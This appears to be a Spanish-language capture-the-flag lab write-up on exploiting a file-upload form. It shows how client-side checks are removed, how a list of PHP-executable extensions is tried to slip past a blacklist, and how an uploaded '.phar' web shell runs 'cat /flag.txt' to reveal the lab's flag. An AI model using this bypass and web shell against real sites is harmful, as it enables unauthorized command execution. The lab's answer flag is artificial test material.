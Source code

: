 # Laboratorio: Upload Exploitation 📃

1. Visitamos la página web

<p align="center">
    <img src="./assets/Validations/01-Web.PNG" width=400>
</p>

---

2. Primero, eliminamos las validaciones en el `Lado Del Cliente`

```
onchange="checkFile(this)"
accept=".jpg,.jpeg,.png"
```

---

3. Interceptamos la petición con **Burp Suite**

<p align="center">
    <img src="./assets/BlackList/01-Burpsuite.PNG" width=400>
</p>

* Ahora intentaremos subir el archivo con otras extensiones válidas para **archivos .php** hasta encontrar una que no se encuentre en la `BlackList`

* Extensiones:
`.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module`

---

4. La extensión válida es **`.phar`**

--

5. Podemos ejecutar comandos, y así leer la **flag** 🏴
* **URL:** `http://[IP]/profile_images/cmd.phar?cmd=cat%20/flag.txt`

**Output**
`HTB{1_c4n_n3v3r_b3_bl4ckl1573d}`
